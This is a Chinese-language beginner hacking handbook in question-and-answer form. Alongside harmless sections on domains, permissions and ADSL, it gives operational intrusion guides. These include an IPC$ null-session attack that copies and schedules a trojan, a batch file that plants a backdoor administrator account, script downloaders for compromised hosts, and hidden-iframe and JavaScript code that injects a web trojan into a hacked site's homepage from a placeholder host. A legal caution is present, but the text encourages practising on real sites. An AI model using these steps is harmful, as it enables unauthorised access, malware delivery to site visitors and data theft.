**按照域名的结构来划分，总体上可把域名分成两类：一类称为“国际顶级域名”（简称“国际域名”），一类称为“国内域名”。**

一般国际域名的最后一个后缀是一些诸如 .com、.net、.gov 或 .edu 的“国际通用域”，这些不同的后缀分别代表了不同的机构性质。比如 .com 表示的是商业机构，.net 表示的是网络服务机构，.gov 表示的是政府机构，.edu 表示的是教育机构。

国内域名的后缀通常要包括“国际通用域”和“国家域”两部分，而且要以“国家域”作为最后一个后缀。以 ISO3166 为规范，各个国家都有自己固定的国家域，如：cn 代表中国、us 代表美国、uk 代表英国等。

除了这种分法之外，在一个“大”域名下，还可能有若干“小”域名来区分提供不同服务的区域或对应不同的主机，这种“小”域名被称为二级域名，它的书写格式是在域名前面加上区别符号。比如域名是 www.nohack.com 表示 WEB 访问的二级域，ftp.nohack.cn 表示 ftp 所在的二级域，down.nohack.com 表示下载所在的二级域。在空间商处申请空间后，一般会分配给你一个默认的域名，通常是以你的用户名作为首段的，比如 xiaoli.nohack.com，这也属于二级域名。

从这个意义上来说，域名就是用字符串命名服务器上的某一部分资源，使之成为容易被人记住并可从 Internet 上访问到的方式。在网站上，我们也可以申请自己的域名。以国内最大的 WEB 空间商万网为例，进入它的域名申请页面 http://www.net.cn/static/domain/，输入你想注册的域名看看是否已被注册。在输入域名后，选择页面提供的需要查询的后缀，如图76所示。


图76

选择后点击“查询”按钮，稍等一会就出现了查询结果，如图77所示。


图77

很遗憾，net、com、org 后缀的域名都已经被别人注册了，只有 mobi 域名尚空缺。如果需要注册，就单击旁边的相关按钮进入注册页面，如图78所示。

首先选择要注册的年份，如果这个域名确实很好、想长期拥有，当然年份就选长点，免得到期被别人抢了去。还要注意看看这个域名的价格你是否满意，如果一切 OK，就提交购买请求，如图79所示。

后面的步骤就和一般的注册一样，注意资料要准确，特别是域名管理密码要记牢。填写资料最后付款，我们就得到了想要注册的域名，同时还有一个管理域名的地址，登录后可以进行域名管理，如图80所示。

现在登录我们的 WEB 空间设置中进入域名绑定选项，将注册的域名与网站进行绑定，如图 81 所示。


完成后再输入域名，就能访问到网站了，再也不用使用那长长的二级，甚至是三级子域名来连接我们的网站了。


## 11 什么是 IPC 连接？

IPC（Internet Process Connection）是共享“命名管道”的资源，它是为了进程间通信而开放的命名管道。这本来是为了方便计算机之间共享资源、方便管理。但是在设计之初存在一个重大漏洞，就是给了普通账号太大权限，以至于能使用默认的管理员账号 administrator 和空密码（就是不设密码，空缺即可）成功建立连接，并且能够复制和执行程序。

这些权限本来是不该给一个无密码账号的，就好像把房门钥匙给了一个不明身份的人，造成了极大的安全漏洞。现在网络上流传的对个人计算机的入侵，几乎都是基于 IPC 连接的，虽然是十年前的技术，但是现在网络上还有不少没有打补丁的主机能被此漏洞入侵，所以我们需要特别关注。

利用 IPC$，入侵者可以先与目标主机建立一个空的连接而无需用户名与密码（当然，对方机器必须开了 ipc$ 共享，否则你是连接不上的），然后拷贝木马并最终执行它。连接者还可以得到目标主机上的用户列表。黑客经常使用 IPC 连接上目标计算机，利用 IPC 具有的功能（如拷贝文件、计划执行功能）执行木马拿到计算机的控制权。

如果对方的计算机没有打补丁，黑客使用以下几条简单的语句，就能完成入侵。建立空连接，输入命令 `net use \\IP\ipc$ "" /user:"administrator"`（一定要注意：这一行命令中包含了 3 个空格），如图 82 所示。


如果前面那条语句执行成功，说明已经建立了 IPC 连接，我们可以将远程硬盘分区映射到本地，命令为 `net use z: \\IP\c$`。这样就把远程主机上的 C 盘映射到了本地作为 Z 盘，我们在本地执行 `dir z:` 命令，实际上看到的是对方的 C 盘。只能看到对方的文件显然不能满足我们，我们要拿到对方主机的权限。下一步就是向远程主机拷贝文件了，输入命令 `copy muma.exe \\IP\admin$`，如图 83 所示。


如果不行，可以换为 C$、D$、E$，最后尝试拷贝到 z:。这个拷贝过去的 EXE 程序是个木马，接下来我们要用计算机自带的计划任务功能定时运行这个木马。如果成功，对方的主机就被我们控制了。先要查看指定 IP 远程计算机的系统时间，输入命令 `net time \\IP`，如图 84 所示。


把程序加入计划执行列表，定时执行程序，这个时间比刚才看到的时间设定要晚 2、3 分钟，输入命令 `at \\IP 11:05 muma.exe`。要查看是否添加成功，输入命令 `at \\IP`，如图 85 所示。


等系统时间到达设置中指定的时间时，拷贝到肉鸡上的木马会执行，黑客即可获得远程计算机的控制权限。使用 IPC 空连接入侵还是有局限性的，如果系统打过补丁，便无法成功，适用于早期未打过补丁的 WINDOWS 操作系统 WINDOWS 2000、WINDOWS 2003、WINDOWS XP。在打过补丁的系统中，虽然能成功建立 IPC 连接，但是无权拷贝文件或者执行程序，这些都是正常现象。如果对方开着防火墙则根本无法连接。

# 第二章 常见问题答疑解惑

## 黑客活动违法吗？我该怎样进行黑客技术的实践呢？

先纠正一个误区，很多人以为入侵网站之后，放置了 WEBSHELL，但是没有改网站的首页和放置网页木马，就没有违法。这个观点是错误的，数字化信息的真实性、完整性、有效性，只要破坏了一点，就构成违法。放置 WEBSHELL 不违法这一误区的形成是因为通常放置 WEBSHELL 管理员不会引起重视，发现网站被入侵也只是清除 WEBSHELL 后修补漏洞了事，并没有意识，也没有精力去诉诸法律，追究责任人。但是随着法律意识的提高，调查程序的简化，难保哪天遇到爱较真的管理员，而你的行为，的确是违法了。

有很多朋友初学黑客技术小获成功之后，喜欢将黑掉的网站首页进行修改，“提醒”管理员注意，还用醒目的字体和颜色写上自己的 QQ 号、E-MAIL 等联系方式，这太虚荣了，并且极其危险。

这个阶段能黑掉的站，都是有明显漏洞、极其简单的网站。炫耀这点成绩没有必要，反而使自己在虚荣之下骄傲自满，去重复同样简单的事来出名，而忽略了真正知识的学习。这种炫耀好像是在对人说：“看，我知道 1+2=3！”，以后回头来看，这种行为很幼稚。

一个真正黑客的行事作风应该是“事成拂衣去，深藏功与名”，真正的高手都是藏在幕后的。不信看看那些黑站留名的，都是菜鸟。更有甚者居然写上了支付一定费用为对方修补漏洞，这已经严重触犯了刑法——敲诈勒索罪！你留下的 QQ 号码对方一旦报警，就能轻松地抓到你，到时你就会为冲动付出沉重的代价。

有人入侵网站后，居然还敲诈勒索并留下 QQ，并很无知地以为 ADSL 上网的自动分配 IP 就查不出来（请注意，即便是自动分配的 ADSL 上网 IP，同样是有迹可寻的，公安机关一样能稳定地抓到你）自己所在的位置，这样的行为绝对不是技术高超和“酷”的体现，而是愚蠢无知、主动申请吃牢饭的体现，如图 86 所示。


还有的人，只是进了后台，根本就没有拿到 WEBSHELL，只能通过发新闻标题的方式提示网站有漏洞，还煞有介事地留下大名和 QQ。进入后台和我们常说的某网站被“黑”掉的权限是差很多的，自己没有能力拿到 WEBSHELL 的炫耀更是贻笑大方。如图 87，为进入后台发布新闻的所谓“黑站”图。

然而学习黑客技术又有一点是与法律相违背的。黑客技术的学习必须通过大量的实践，书本上的情况和现实中的情况是相差很大的，就像医生一样，必须要临床经验才能快速有效地给出诊治。促使黑客技术爱好者必须进行入侵尝试，这一点与前面的法律条款相违背了。

从某种意义上来说，黑客是在法律和道德的边缘玩着刀锋上的游戏。要明白自己在做什么，会承担怎样的责任。如果发现漏洞，不要做修改源文件或更改主页等让管理员难堪的事，应该发封信给管理员详细地描述漏洞存在的地方，友好地提醒管理员修复漏洞。或者练习的目的已经达到，可以删除掉后门，并尝试为他修复漏洞（请注意，在修复之前一定要备份相关文件，以防万一修复失败可以进行恢复）。

对于一些常见的整站系统和程序漏洞测试时尽量在本地进行，这样的测试和真实环境是一样的。在本地配置测试环境时还锻炼了服务器的配置、程序的使用，加强了操作能力。这样的本地测试使我们对学到的东西的了解深度会比拿到一个漏洞直接在网上寻找相关程序，然后进行入侵要多得多。

多了解一些网站服务器管理员常做的事，而且知道服务器常用程序对于我们学习网络安全技术也是非常有必要的。知道了别人会怎样防御、常见的堡垒是什么结构，自然会对攻击更加有利。

最后希望大家明白，在网络上你并非可以为所欲为，一样有法律十分严肃地约束着你的行为，一切要慎重，慎重！

## 13 什么是脚本？

我们听说最多的可能是话剧脚本，脚本是个引进词，在日语中脚本有“手稿”、“剧本”的意思，这包含了脚本的两大特征：

- 既然是手稿，那么就容易随便修改涂抹，所以在计算机上适合解释执行，因为编译执行可能要花太长的时间。于是解释执行的程序就成了 script。
- 既然是剧本，就要描述很多情节，这些情节就交给演员去演。在计算机上，那些功能比较单一的可执行程序就成了演员，script 成为协调这些程序执行的导演。于是想捆绑功能性程序达到更强功能的描述文件就成了 script，这就有点批处理的味道，但比批处理更强。

常见的脚本包括 VBS 和 JS 两种，站在一个菜鸟的角度看，脚本和程序的最大区别是：程序的代码我们是不能直观地看见的，而脚本的代码只需要在脚本文件上按鼠标右键，在弹出的打开方式中选择“记事本”就能看到脚本的源代码，如图 88、图 89 所示。


脚本代码也可以和程序一样能实现很多功能，比如在服务器上用来实现多媒体的播放、危险代码的检测、屏蔽和限制某些功能（如限制使用鼠标右键等）。相对地，黑客也能利用脚本逃过危险代码的检测，绕过某些限制。此外脚本工具能让黑客实现很多功能，比如利用脚本下载程序、利用脚本修改计算机配置、打开或安装某些服务。最值得注意的是，黑客取得网站的 WEBSHELL 所使用的 WEB 木马，ASP 代码也是脚本，它们属于服务端脚本，通过这些我们就能了解到脚本的功能是如此强大。

最简单最常见的脚本就是批处理，我们在学习 IPC 入侵知识的时候，应该看到过一段关闭本机 IPC 的批处理，相关代码如下：

```bat
net share c$ /del
net share d$ /del
net share admin$ /del
net share ipc$ /del
```

这一段批处理第一行的意思是关闭 C 盘上的共享，第二行的意思是关闭 D 盘上的共享，第三行的意思是关闭系统卷的共享，第四行的意思是关闭 IPC 共享。将这 4 行代码保存为 IPC.BAT 然后双击代码，一个批处理就执行了四个命令，这有一个非常大的好处，能让我们在某些地方以一次操作完成多个任务。

仍以这段批处理为例，你可以将这个批处理文件放到 WINDOWS“开始”→“启动”项中，这样每次开机时，这四个命令都会被执行，起到关闭本机共享和 IPC 的作用。

有很大的作用，比如用批处理执行添加账号和加入管理员组这两个命令：

```bat
Net user hacker 12345678 /add
Net localgroup administrators hacker /add
```

将以上代码存为一个名为 ADDUSER.BAT 的批处理文件，放入目录 `C:/Documents and Settings/ADMINISTRATOR/「开始」菜单/程序/启动` 中，如图 90 所示。这样，服务器重启时就能完成建账号并添加到管理员的命令。


图90

从肉鸡上下载工具，在没有图形界面和命令行操作的情况下是很不方便的。例如通过 SA 权限的注入点执行命令时，想要远程下载一个工具，如果用 FTP 命令，如何得到窗口并一步步输入用户名和密码是个难题，这时就得采用脚本写个批处理来进行 FTP 下载，相关代码如下：

```bat
echo ftp>111.txt
echo open 你的FTP服务器IP地址>>111.txt
echo 用户名>>111.txt
echo 密码>>111.txt
echo get 要下载的文件名>>111.txt
echo bye>>111.txt
ftp -s:111.txt
del 111.txt
del tree.txt
del test.bat
```

写入后存为 DOWN.BAT，运行后就可以进行 FTP 下载了。在通常的使用中，用 VBS 下载比批处理更方便，代码如下：

```vb
Set xPost=CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET","http://images.sohu.com/uiue/sohu_logo/beijing2008/sohu.gif",0
xpost.Send()
set sget=createobject("ADODB.Stream")
sget.mode=3
sget.type=1
sget.open()
sget.write(xpost.responsebody)
sget.savetofile "test.gif",2
```

`http://images.sohu.com/uiue/sohu_logo/beijing2008/sohu.gif` 是你欲下载的文件地址，`test.gif` 是下载后保存的文件名。把这段代码存为 down.vbs，在 cmd 中运行 `Wscript down1.vbs`，注意需要输入 down1.vbs 的绝对路径，如图 91 所示。


图91

这样即可实现下载，其中 wscript 为脚本宿主工具。以上就是脚本的常见应用，脚本的功能十分强大，其实现在建立网站的 asp、aspx、php 等也可以认为是一种脚本，上面所述只是管中窥豹。

## 14 经常提到的“权限”是什么？

> 权限：个人以为不需要用太多复杂专业的词语对初学者作解释，完全可以简单地用一句话来说明什么是权限，那就是你是什么身份和你能做什么。

权限的影响渗透到入侵中的方方面面，但很少有初学者意识到还有权限这个东西存在。常见到诸如此类的提问：“我连接了 IPC，可是为什么提示没有权限不能上传文件？”，“我得到了一个 WEBSHELL，为什么执行了灰鸽子没反应？”，“我在 WEBSHELL 的命令行下执行建管理员命令为什么不成功？”，这些都是没有权限概念的体现。

在 WINDOWS 系统中，从事每一项工作的任务都被分配一个角色去完成，这个角色被赋予这项任务的同时也分配到了相应的权限。这就比如在公司里，财务经理是管财务的，这是分配给他的任务（对应前文中的“你是什么身份”这一问题），相应的也就分配给了他查询账目、保存账簿、核算成本、制定财务计划等相应的权限（对应前文中“你能做什么”这一问题）。

把例子放到计算机来说，IIS 中的 WEB 访问者全部被分配给了一个叫 IUSER_机器名 的账户，即所有浏览该网站的用户全是这账号，如图 92。


具有对 WEB 目录的读写修改权限，但是没有执行程序的权限，这个权限要管理员才会有，这是先天就设定好的。就如前面的例子，财务经理当然就只负责管财务，而不能去管销售方面。这个原理可以概括为“角色不同，权限不同”。

那么现在我们再回过头来，看看之前初学者常提出的那几个问题：

- “为什么我连接了 IPC，提示没有权限上传文件？”：因为对方是打补丁的系统，远程登录的管理员账号也是当作 GUEST 成员，GUEST 成员是没有写权限的。
- “我得到了一个 WEBSHELL，为什么执行了灰鸽子后没有反应？”：因为 IIS 的访问账号是 IWAM_机器名，此账号也是属于 GUEST 组，是没有执行程序权限的。在 WEBSHELL 下运行灰鸽子因为没有权限也就无法运行，没反应是正常的。
- “我在 WEBSHELL 的命令行下执行建管理员命令为什么不成功？”：因为只有管理员才有权限添加账号并添加入管理员组，IIS 访问账号的 GUEST 权限是做不到这一点的。

从上面几个小例子相信大家应该认识到权限在入侵中的影响范围之广和影响力之深了。了解了权限的概念，很多困扰我们的问题就自然而然有了答案。权限直接关系到入侵成败，上面阐述的是“你是什么身份”，下面来讲讲“你能做什么”。能做的事，即你的“权限”。

我们还是来用公司打个比方，一个公司能具备的权限有：财政权、人事权、经销权、仓库管理权等。相对地，我们的计算机上也有读、写、修改、列目录、执行等权限，这些权限被分配给认为可以给予相应权限的对象。

```bat
net localgroup
```

如图 93 所示。


图93


图94

在 NTFS 分区的硬盘中，点击右键选“属性”－“安全”就能知道各角色在目录中拥有的权限，如图 94 所示。

## Windows 目录的权限一般分为以下几种：

- **完全控制**：完全控制，就是对目录拥有不受限制的完全访问，就像 Administrators 在所有组中的地位一样。选中了“完全控制”，下面的五项属性将被自动选中。
- **修改**：修改，则像 Powerusers，选中了“修改”，下面的四项属性将被自动选中；下面的任何一项没有被选中时，“修改”条件将不再成立。
- **读取和运行**：读取和运行，就是允许读取和运行在目录下的任何文件，“列出文件夹目录”和“读取”是“读取和运行”的必要条件。
- **列出文件夹目录**：列出文件夹目录，是指只能浏览该卷或目录下的子目录，不能读取，也不能运行。
- **读取**：读取，是能够读取该卷或目录下的数据。
- **写入**：写入，就是能往该卷或目录下写入数据。
- **特别的权限**：而“特别”则是对以上的六项权限进行了细分。

## Windows 下的权限还具备四个特性——继承性、累加性、优先性、交叉性，下面简单介绍一下这四种特性的含义：

- **继承性**：是说下级的目录在没有经过重新设置之前，是拥有上一级目录权限设置的。这里还有一种情况要说明一下，在分区内复制目录或文件的时候，复制过去的目录和文件将拥有它现在所处位置的上一级目录权限设置；但在分区内移动目录或文件的时候，移动过去的目录和文件将拥有它原先的权限设置。
- **累加性**：是说如一个组 GROUP1 中有两个用户 USER1、USER2，他们同时对某文件或目录的访问权限分别为“读取”和“写入”，那么组 GROUP1 对该文件或目录的访问权限就为 USER1 和 USER2 的访问权限之和，实际上是取其最大的那个，即“读取”+“写入”=“写入”。又如一个用户 USER1 同属于组 GROUP1 和 GROUP2，而 GROUP1 对某一文件或目录的访问权限为“只读”型的，而 GROUP2 对这一文件或文件夹的访问权限为“完全控制”型的，则用户 USER1 对该文件或文件夹的访问权限为两个组权限累加所得，即：“只读”+“完全控制”=“完全控制”。

### ③ 优先性

权限的这一特性又包含两种子特性：其一是文件的访问权限优先目录的权限，也就是说文件权限可以越过目录的权限，不顾上一级文件夹的设置。另一特性就是“拒绝”权限优先其它权限，也就是说“拒绝”权限可以越过其它所有权限，一旦选择了“拒绝”权限，则其它权限也就不能起任何作用，相当于没有设置。

### ④ 交叉性

指当同一文件夹在为某一用户设置了共享权限的同时，又为用户设置了该文件夹的访问权限，且所设权限不一致时，它的取舍原则是取两个权限的交集，也即最严格、最小的那种权限。

如目录 A 为用户 USER1 设置的共享权限为“只读”，同时目录 A 为用户 USER1 设置的访问权限为“完全控制”，那用户 USER1 的最终访问权限为“只读”。权限的设置必须在 NTFS 分区中才能实现，FAT32 是不支持权限设置的。

权限的概念中还包括三种文件和文件夹属性，如图 95 所示。


- 只读：顾名思义，只能读，不能修改。
- 系统：被隐藏保护，通常不会显示。
- 隐藏：隐藏不显示。

权限系统是 Windows 下非常重要的一个系统，概念繁多，很多初学者都有难于理解和观念模糊不清之感。对于权限的学习和掌握，只有靠实践中的经验积累，建议遇到问题时好好回头复习一下本节文章中所讲的内容。

### 15 为什么有的网站程序文件是 PHP 后缀，有的是 ASP 后缀，有的又是 ASPX 后缀，它们有什么不同？

常上网的朋友会发现，网站程序文件的后缀并不是千篇一律的，常见的有这几种后缀：html、asp、aspx、php，如图 96、图 97、图 98 所示。


Html 相信大家都明白，是最初级的网页语言。而 ASP、ASPX 和 PHP 这三种后缀，虽然脚本类型不同，但是都属于脚本系统；就好像 JPG 和 GIF 都属于图片。CGI 后缀是 CGI 脚本语言写成的文件，PHP 后缀说明是 PHP 脚本语言写成的文件，ASP 后缀就是 ASP 脚本语言写成的文件，ASPX 就是 ASPX 语言写成的脚本……


图98

在入侵中我们可以从脚本类型中得到一些规律，不同的脚本通常使用的数据库都是相对应的，就好像影音文件中 WMV 默认是用 Windows Media Player 播放，rm 后缀的默认是用 real player 播放器播放一样，是有规律的。在标志符中的语句就将由 asp、aspx 或 php 解析器解析。

Asp 程序的标志符是 `<%……%>`，如图 99 所示。


图99

ASPX 程序的标志符是 `<%@……@%>`，如图 100 所示。


图100

Php 的程序标志符是 `<?……?>`，如图 101 所示。


图101

不同的脚本程序，有其自身的特性和规律，在入侵中我们可以用一些经验来达到更好的效率：**PHP 后缀的脚本系统通常是用 MYSQL 数据库支持的，查找漏洞时应相对多关注一下 MYSQL 的常见漏洞。ASP 后缀的脚本背后支持的数据库是 ACCESS 或 MSSQL，ASPX 后缀的脚本通常是 MSSQL 数据库。**

一般而言，MSSQL 的入侵难度小于 MYSQL 数据库。除了数据库的不同，它们所支持的 WEB 应用程序也不同。学习过《Windows2003 服务器配置》的朋友应该知道，ASP 和 ASPX 是用 IIS 解析；PHP 的脚本通常是需要用 APACHE 来解析。但是请注意，IIS 一样能支持 PHP，以上的描述都是介绍的一般情况，并没有代表特例，甚至 asp 脚本使用 MYSQL 数据库，php 脚本使用 MSSQL 数据库也是可以的，这里特别强调，并没有必然的联系。从网站文件的后缀分析出网站可能采用的 WEB 应用程序和数据库类型，对于快速进行漏洞检测是很有必要的前置知识。

## 16 什么是挂马

挂马就是在网站的首页或相应页面放置地址，使得用户在访问此网站或相应页面时被加载木马。当被访问时，这个页面上包含的木马就会被下载到浏览者的计算机上并且被执行，这就是该网站被挂马了。被挂上木马，是因为该网站存在漏洞，被黑客拿到了 WEBSHELL 或跨站，通过数据库挂马等方式达成的。

所谓的挂马，并不是把我们常听说的灰鸽子木马直接挂到网页上，那样是无法达到下载并运行的目的。“挂马”挂的是一种程序，它能将远程其它地址的鸽子下载到本地并且执行，能实现这种功能的程序被称为“网络木马”。

用户访问被挂马网站到中马流程如下：

> 用户访问网站 ——> 挂在网站上的网络木马随网页被加载到访问者的计算机中 ——> 网络木马开始从远程下载木马，比如灰鸽子，并执行 ——> 访问者计算机中木马成为肉鸡。

首先需要找到一款好用的网络木马，这个可不太好找，因为能有效传播的漏洞转瞬即逝。我们以某款网马为例，先把配置好的灰鸽子上传到我们的空间上，假设地址为 http://www.xxx.com/gezi.exe，就将这个地址填入网马生成工具的“exe 文件地址”处，如图 102 所示。


再点击生成网马，在生成器的目录下会出现一个 htm 文件，我们将其命名为 down.htm 吧，如图 103 所示。

把这个 down.html 文件也上传到我们的空间里，假设地址为 http://www.xxx.com/down.htm。准备工作就绪，我们可以在网站中挂马了。首先登录网站上我们安放的 WEBSHELL，查找到网站的首页文件，首页文件就是访问网站时被 WEB 程序自动最先执行返回给访问者的那个文件，通常是 index.asp、default.asp。脚本程序的不同，后缀可能不同，如图 104 所示。


除了 ASP 的后缀外，还可能是 HTML、PHP、ASPX 等。打开首页文件，例如 index.asp，看有没有写权限。如果有，挂马是肯定成功的，把配置好的网马地址粘贴到 index.asp 文件里并保存就行了。

```html
<iframe src=http://www.xxx.com/down.htm ...>
```

width=0 height=0></iframe> 这样，建议把这一行代码放在整个 index.asp 文件的第一行或最后一行，而不要胡乱地插入在文件代码的中间，如图 105 所示。


图105

还有一种挂马的代码也很常见，使用的是 `<script language=JavaScript src=config.js></script>` 这种 JavaScript 脚本来加载。把 config.js 放在和网站同一目录下，而且 JS 调用能提高隐藏性，给管理员带来查杀的难度。

config.js 中的内容如下：

```javascript
document.write('<iframe src=http://www.xxx.com/down.htm width=0 height=0 frameborder=0>');
document.write('</iframe>');
```

请注意每一行最后都有一个分号来结尾，其中 `=http://www.xxx.com/down.htm` 就是网马所在的地址。

有些时候，首页文件 index.asp 被设置成禁止修改，用来防止挂马，这时可以在首页文件代码中查找其它有在首页文件中调用的网页文件或脚本，把网马的调用代码插入即可实现挂马。

举个例子，假设在首页文件中发现调用了一个 mideplay.js 的脚本文件，那么就找到这个 mideplay.js 脚本文件，把上面的 js 内容加入即可。当首页文件被访问时，mideplay.js 被客户端执行的同时，加在中间的网络木马也被执行。

挂马的核心是网马，网马之所以能将程序下载并执行，大部分是利用的 Windows 系统漏洞，所以好的网马并不是常有，而且多数在早期只在一定圈子内传播。一款好的网马能大大提高命中率，在挂马时的网马是要慎重选择并经过测试的。

## 17 ADSL 路由器中的桥接模式和路由模式是怎么回事？有什么区别？

早期国内的 ADSL 线路接入都是桥接方式，由 ADSL MODEM 和电脑配合，在电脑上分配固定 IP 地址，开机就能接入局端设备进入互联网。但是这样在用户不开机上网时，IP 是不会被利用，就会造成目前日益缺少的公网 IP 资源的浪费，因此出现了 PPPoE 拨号的 ADSL 接入。

PPPoE 拨号可以使用用户开机时拨号接入局端设备，由局端设备分配一个动态公网 IP，这样公网 IP 紧张的局面就得到了缓解。目前国内的 ADSL 上网方式中，基本上是 PPPoE 拨号的方式。PPPoE 拨号出现以后，ADSL 的接入设备 ADSL MODEM（ADSL 调制解调器）就有一个新的兄弟产品，叫做 ADSL ROUTER（ADSL 路由器）。

这种设备具有 ADSL MODEM 最基本的桥接功能，所以个别产品也叫 ADSL BRIDGE/ROUTER（ADSL 桥接路由器），俗称为“带路由的 ADSL MODEM”。

ADSL ROUTER 具有自带的 PPPoE 拨号软件，并能提供 DHCP 服务、RIP-1 路由等功能，因此它被移植了少量的路由器功能。

但是，并不是说 PPPoE 拨号就没有桥接，常见的这类组网方式有：ADSL MODEM+PPPoE 拨号软件（如 EnterNet 300）。

有个别地方的电信运营商仍主推一般的 ADSL MODEM，这样就没有路由功能，实际上就是不鼓励用户“一线多机”。但是，现在的 ADSL 接入设备生产商竞争实在激烈，所以 ADSL MODEM 已基本停产，ADSL ROUTER 大行其道，这就是现在所称的大多数 ADSL MODEM 都“带路由”的原因，也就是 ADSL 接入设备基本是 ADSL ROUTER。由于组网方案的不同，ADSL ROUTER 就有了桥接模式和路由模式的工作模式，现在的“猫”还有这两个选项，如图 106、图 107 所示。


若是有少量客户机的家庭用户或 SOHO 用户，就可以直接用 PPPOE ROUTED 路由模式，由 ADSL ROUTER 来进行 PPPoE 拨号并进行路由。也可以用 RFC 1483 BRIDGED，然后接入 PC，在 PC 上运行 PPPOE 拨号软件进行拨号，或接入宽带路由器，由宽带路由器的内置 PPPOE 拨号工具进行拨号。

若是在多用户环境，客户机的数量较多时，如：网吧、企业、社区，往往是 ADSL ROUTER 加宽带路由器的组网形式，这时多数会让 ADSL ROUTER 工作在桥接模式下，由宽带路由器来进行拨号功能，并承担路由的工作，这是因为 ADSL ROUTER 的路由能力较低，在处理大量客户机的路由请求时会出现性能下降或产生死机故障。所以说，桥接模式和路由模式其实是针对于 ADSL ROUTER 来说的。

对于用户来说，当使用桥接上网时，你的 IP 地址其实是在路由设备后面，因此直接连接你的 IP 是连不上的，困扰着灰鸽子等木马的内网上线问题也由此产生；而路由模式则是能直接访问外网 IP 的，可以让灰鸽子上线。

一般而言，通过程序发起拨号上网的都是路由模式，开路由器就能上网或者几台主机共用一个 ADSL 上网的，都是桥接模式。如图 108 所示，为拨号程序图标。


## 18 WEB 木马、网页木马、远程控制木马、后门木马有什么区别？

很多朋友在学习一段网络安全技术之后，掌握的概念逐渐增多，致使在很多概念上出现混淆。这里纠正一下关于几种常见木马词汇的问题，这几种木马分别是 WEB 木马、网页木马、远程控制木马和后门木马。

### WEB 木马

就是常说的 WEBSHELL，它是脚本形式的，可以用文本编辑器打开进行编辑，如图 109 所示。它一般无法在我们家用计算机上使用，需要在安装有能解析网页程序的 IIS、Apache 服务器上才能运行。


我们通常说的“中了木马”并不是指的这种马，它是用来操作和管理文件的，能对网站服务器上的文件进行编辑、复制、粘贴等操作，它的运行依赖于 IIS，如果没有是无法运行的。代表作有海洋 WEB 木马、老兵 WEB 木马等。

### 网页木马

它能操作被中马的计算机去下载并执行后面提到的远程控制木马或者盗取账号木马。它在受害计算机上只会运行一次，这一次的作用就是下载并执行木马，此后就不再起作用了。

> 网页木马的后缀可能是任何后缀。


如图 110 所示的这款网页木马，把你要传播的木马，如盗窃游戏账号类或远程控制类的木马 EXE 程序选中，就能生成网马，网马能把 EXE 木马在受害主机上下载并运行。

网页木马生效一般利用的是 Windows 的系统漏洞，它的运行依赖于 IE 浏览器和被黑的网站。也就是说，如果一个网站被挂上了网页木马，只要有人浏览该网站即会有网页木马在受害机器上执行，然后利用系统漏洞下载执行程序。代表作有 MS06014 ANI 木马，早期的冰狐浪子网马等等。

### 远程控制木马

是常说的“你的电脑，我的权限”。它的运行一是依赖于上面提到的木马，二是利用 IPC 连接等其它硬攻击手段，甚至包括与视频文件、BT 文件等欺骗点击进行传播。代表作有灰鸽子（鼎鼎大名，可谓无人不知无人不晓）、PCSHARE、上兴等，基本都是 EXE 后缀的可执行文件程序，如图 111 所示。


### 后门木马

又名 ROOTKIT，也是一种远程控制木马，但与上面提到的专门远程控制木马相比，客户端很小，同时有很强的隐藏能力，通常不是直接交由受害主机运行，而是在得到了权限后丢失控制权，想更长期、更隐蔽地控制计算机时使用。多用于比较重要的服务器（用于个人计算机属于大材小用，而且也不方便进行日常操作），因为与系统内核结合得较为紧密，通常为老手使用。代表作有黑客之门、BYSHELL 等，后缀可能是 EXE 程序，也可以是 DLL 文件，如图 112 所示。


最后用一段话来总结这几种木马的作用：入侵网站拿 WEBSHELL 用 WEB 木马；想在网站挂木马用网页木马加遥控木马；有价值的服务器想长期保存用后门木马。

## 19 什么是 ARP 欺骗？

先解释一下什么是 ARP。ARP 的意思是 Address Resolution Protocol（地址解析协议），它是一个位于 TCP/IP 协议栈中的底层协议，是负责将 IP 转化成与 IP 对应的网卡物理地址的一种协议。它靠维持在内存中保存的一张表来使 IP 得以在网络上被目标机器应答。

在计算机里保存 MAC 地址与 IP 地址对应记录的称为 ARP 路由表，它保存的是 IP 和 MAC 的对应关系，在 CMD 中输入 **ipconfig -all** 返回如图 113 所示。

- IP address：是本机的 IP 地址
- DNS Servers：DNS 服务器地址
- Physical address：是本机的 MAC 地址


当计算机 A 向 B 发送数据时，是根据 IP 地址发送到 B 主机。局域网中对目标主机的寻址是以 MAC 地址为准的，于是 A 计算机就先从 ARP 路由表的缓存中查找保存着的 IP 与 MAC 记录中查找是否存在该记录，如果有的话就按该 MAC 地址发去数据。此时 C 计算机欲对 A 与 B 之间的数据进行嗅探。C 主机先向 A 发送一条 ARP 更新记录，把主机 A 的 ARP 中 B 主机 IP 对应的 MAC 地址更新为自己的 MAC 地址，同时向主机 B 发送一条 ARP 更新请求，将 B 主机中 A 主机 IP 对应的 MAC 地址更新为自己的 MAC 地址。

如此一来，A 和 B 之间的通信全都发送到了 C 主机，C 就当起了 A 和 B 之间的信息转发人——“中间人”，A 和 B 之间的数据都会被 C 嗅探到。从影响网络连接通畅的方式来看，ARP 欺骗分为两种：一种是对路由器 ARP 表的欺骗；另一种是对内网 PC 的网关欺骗，具体流程图如 114 所示。


图114

第一种 ARP 欺骗的原理是——截获网关数据。它通知路由器一系列错误的内网 MAC 地址，并按照一定的频率不断进行，使真实的地址信息无法通过更新保存在路由器中，结果路由器的所有数据只能发送给错误的 MAC 地址，造成正常 PC 无法收到信息。

第二种 ARP 欺骗的原理是——伪造网关。它的原理是建立假网关，让被它欺骗的 PC 向假网关发数据，而不是通过正常的路由器途径上网。

ARP 欺骗的危害巨大，能在内网中大面积盗取账号，引起网络堵塞掉线，是网吧经常面临的黑客攻击。

## 常见的服务与端口绑定的有哪些

先要详细讲一讲我们常用来入侵和扫描的那几个端口的情况。

| 端口 | 服务 | 说明 |
|---|---|---|
| 21 | FTP | FTP 服务器所开放的端口用于上传下载；攻击者常用于寻找打开 anonymous 的 FTP 服务器。该端口也是不少木马（如 Doly Trojan、Fore、Invisible FTP、WebEx、WinCrash、Blade Runner）开放的端口。 |
| 22 | SSH | 与该端口的 TCP 连接可能是为了寻找 SSH；该服务有许多弱点，配置不当时存在漏洞风险。 |
| 23 | Telnet | 远程登录服务端口；入侵者常用于远程登录 UNIX 系统，扫描该端口也常用于发现操作系统信息。 |
| 25 | SMTP | SMTP 服务器开放端口用于发送邮件；入侵者寻找 SMTP 服务器常用于传递垃圾邮件（SPAM）。 |

- 端口：80  
  - 服务：HTTP  
  - 说明：用于网页浏览，木马 Executor 开放此端口。  
